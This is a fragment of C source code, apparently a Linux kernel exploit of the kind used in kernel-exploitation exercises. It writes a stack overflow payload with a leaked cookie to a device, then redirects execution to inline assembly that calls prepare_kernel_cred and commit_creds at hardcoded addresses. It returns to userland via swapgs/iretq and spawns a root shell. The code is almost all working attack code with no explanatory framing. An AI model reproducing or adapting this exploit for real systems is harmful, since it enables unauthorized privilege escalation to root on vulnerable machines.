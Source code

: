 ```c
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; 
    payload[off++] = 0x0; 
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

int main() {

    save_state();

    open_dev();

    leak();

    overflow();
    
    puts("[!] Should never be reached");

    return 0;
}
```
